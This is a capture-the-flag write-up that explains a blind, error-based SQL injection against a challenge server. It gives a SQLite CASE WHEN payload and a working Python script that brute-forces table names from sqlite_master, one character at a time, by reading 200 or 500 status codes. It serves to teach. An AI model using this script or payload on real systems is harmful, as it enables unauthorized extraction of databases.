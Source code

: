 So presumably the SQL query is something along the lines of `SELECT * FROM elves WHERE id={path};`

Because we cannot see the results of the query or the error on the page, we're dealing with a blind SQL injection vulnerability; specifically blind error based SQL injection, because our only indication of whether or not the query was successful is based off if the server returns status code `200` or `500`.

I took a guess that the server was running SQLite which uses `CASE WHEN [conditional] THEN x ELSE y END` syntax instead of `IF()` syntax like MySQL uses.

A simple query to showcase this is: `1=(CASE WHEN true THEN 1 ELSE 2 END)`

- `1=` represents what we want to compare against what the CASE statement returns
- `CASE WHEN true` represents some conditional that is used by the CASE statement to determine which value to return
- `THEN 1` represents the value returned if the CASE statement conditional is true
- `ELSE 2` represents the value returned if the CASE statement conditional is false 
- `END` is a keyword to end the CASE statement

In the example above, since the conditional is simply set to `true`, a `1` is returned from the CASE statement which makes the overall query true since `1=1`

With this understanding, we can begin leaking information from the database. We'll do this by bruteforcing each character of the table names to find the table we're looking for, then we'll bruteforce the column names of that table, and finally we'll bruteforce the values within the columns we find.

To do this, I crafted a Python script:

```python
import string
import requests

# String to store our leaked data in
leaked_data = ''

# Continually loop
while True:

    # for each character we want to bruteforce
    for l in ('_=' + string.ascii_letters + string.digits + "!@#$%^()@{}"):

        # position variable to store the index of the character we're bruteforcing
        position = len(leaked_data) + 1 # + 1 because we want to leak the next character

        # The SQL query
        sql = f"1 and 1=(CASE WHEN (SELECT SUBSTR(name,{position},1) FROM sqlite_master WHERE type='table' and name NOT like 'sqlite_%')='{l}' THEN 1 ELSE 2 END)"

        # Send our payload
        r = requests.get("http://challs.htsp.ro:13001/" + sql)

        print(f'trying {leaked_data + l}')

        # If the server returns 500, we know the character is wrong
        if r.status_code == 500:
            print('bad')
            continue
        else: # Otherwise, if it returned 200 we know the character is correct
            print('good')
            leaked_data += l # append this character to our leaked data
            break # break to begin bruteforcing the next character
```
